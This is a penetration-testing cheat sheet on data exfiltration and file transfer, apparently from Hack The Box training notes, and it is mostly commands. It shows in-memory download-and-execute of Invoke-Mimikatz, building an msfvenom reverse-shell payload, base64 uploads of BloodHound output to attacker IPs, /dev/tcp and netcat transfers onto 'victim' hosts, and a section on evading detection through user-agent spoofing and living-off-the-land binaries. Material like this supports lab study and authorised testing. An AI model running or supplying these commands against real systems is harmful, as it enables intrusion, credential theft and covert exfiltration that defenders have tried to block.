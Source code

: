# Data Exfiltration

## File Transfers

### HTTP

#### Hosting

```bash
updog  # Python module
python3 -m http.server  # Python 3
python -m SimpleHTTPServer 8080  # Python 2
ruby -run -ehttpd . -p8080  # ruby
php -S 0.0.0.0:8080  # PHP
socat TCP-LISTEN:8080,reuseaddr,fork  # Socat
```

#### Downloading

Windows

```powershell
# Certutil
certutil -urlcache -f http://192.168.1.1/secrets.txt secrets.txt
# PowerShell
PS C:\htb> (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1',"C:\Users\Public\Downloads\PowerView.ps1")
# From PowerShell 3.0, Invoke-WebRequest is also available
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
# Instead of downloading to disk, the payload can instead be executed in memory, using Invoke-Expression, or the alias iex.
powershell -c IEX(New-Object Net.WebClient).downloadString('http://10.10.14.15:9090/Sherlock.ps1')
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
# Bitsadmin
PS C:\htb> bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
PS C:\htb> Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"
```

Linux

```bash
# wget
wget http://10.10.14.35:9090/xxxx_1.0_all.snap
# curl
curl http://10.10.14.35:9090/xxxx_1.0_all.snap -o xxxx_1.0_all.snap
```

#### Uploading

```bash
# PowerShell
# It is also possible to upload files using Powershell using Invoke-WebRequest or Invoke-RestMethod.
PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/users/public/downloads/BloodHound.zip' -Encoding Byte))
PS C:\htb> Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64
# After catching the base64 data with Netcat, the payload can be decoded.
Erich@htb[/htb]$ echo <base64> | base64 -d -w 0 > bloodhound.zip
# Bitsadmin
PS C:\htb> Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql
# Certutil
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```

### SMB

#### Hosting

```bash
# Impacket
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.0.150 LPORT=53 -f exe -o reverse.exe
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py shareName .
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py shareName . -smb2support
```

#### Downloading

Windows

```powershell
copy \\10.6.0.150\shareName\reverse.exe C:\PrivEsc\reverse.exe
```

### FTP

#### Hosting

```bash
# Python
python -m pyftpdlib -p 21 --write
# Python removing anonymous access
python3 -m pyftpdlib --user=pentester --password=p4ssw0rd -w
```

#### Downloading

```powershell
ftp <KALI IP>
ftp> put <FILE TO TRANSFER>
```

### Netcat

#### Hosting

```bash
Erich@htb[/htb]$ nc -lvnp 80 <LinEnum.sh  # Host
victim@target:~$ cat < /dev/tcp/10.10.10.32/80 > LinEnum.sh  # Download the file
```

#### Connection Initiated by Pentester

```bash
victim@target:~$ nc -nlvp 8000 > mimikatz.exe
Erich@htb[/htb]$ nc -nv 10.10.10.132 8000 <mimikatz.exe
```

#### Connection Initiated by Target

```powershell
Erich@htb[/htb]$ nc -nv 10.10.10.32 8000 > mimikatz.exe
victim@target:~$ nc -nlvp 8000 <mimikatz.exe
```

### SCP

```bash
PS C:\htb> scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip  # Upload
Erich@htb[/htb]$ scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe  # Download
```

### RDP

Remote Desktop is often enabled on Windows machines, and from Linux, `rdesktop` can be used to expose a local folder in the remote RDP session.

```bash
Erich@htb[/htb]$ rdesktop 10.10.10.132 -r disk:linux='/home/user/rdesktop/files'
```

Alternatively, from Windows, the native mstsc.exe remote desktop client can be used.

### Echo Copy

```powershell
Erich@htb[/htb]$ upx --best nc.exe  # Make nc.exe smaller using upx
PS C:\htb> certutil.exe -encode nc.exe nc.txt  # Convert binary to base64
# Open resulting text file in an editor and replace newlines with `echo ".`
Find:\n
Replace:echo "
# If the last line has an echo " on its own, remove it.
# Next, copy all the text and place it on the target
PS C:\htb> certutil.exe -decode nc.txt nc.exe
PS C:\htb> cmd /c "nc.exe -h 2>&1"
```

### Base64

```bash
PS C:\htb> openssl.exe enc -base64 -in nc.exe -out nc.txt  # Encrypt
PS C:\htb> openssl.exe enc -base64 -d -in nc.txt -out nc.exe  # Decrypt
```

## Evading Detection

### Changing User-Agent

&#x20;In case diligent administrators or defenders have blacklisted any of these User Agents, [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1) contains a UserAgent parameter, which allows for changing the default user agent to one emulating Internet Explorer, Firefox, Chrome, Opera, or Safari. For example, if Chrome is used internally, then setting this User Agent may make the request seem legitimate.

Invoking Invoke-WebRequest to download nc.exe using a Chrome User Agent:

```bash
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "C:\Users\Public\nc.exe"
```

### LOLBAS / GTFOBins

Application whitelisting may prevent you from using PowerShell or Netcat, and command-line logging may alert defenders to your presence. In this case, an option may be to use a "LOLBIN" (living off the land binary), alternatively also known as "misplaced trust binaries." An example LOLBIN is the Intel Graphics Driver for Windows 10 (GfxDownloadWrapper.exe), installed on some systems, and contains functionality to download configuration files periodically. This download functionality can be invoked as follows:

```bash
PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

&#x20;Such a binary might be permitted to run by application whitelisting and be excluded from alerting. Other, more commonly available binaries are also available, and it is worth checking the [LOLBAS](https://lolbas-project.github.io) project to find a suitable "file download" binary that exists in your environment. Linux's equivalent is the [GTFOBins](https://gtfobins.github.io) project and is definitely also worth checking out. As of the time of writing, the GTFOBins project provides useful information on nearly 40 commonly installed binaries that can be used to perform file transfers.

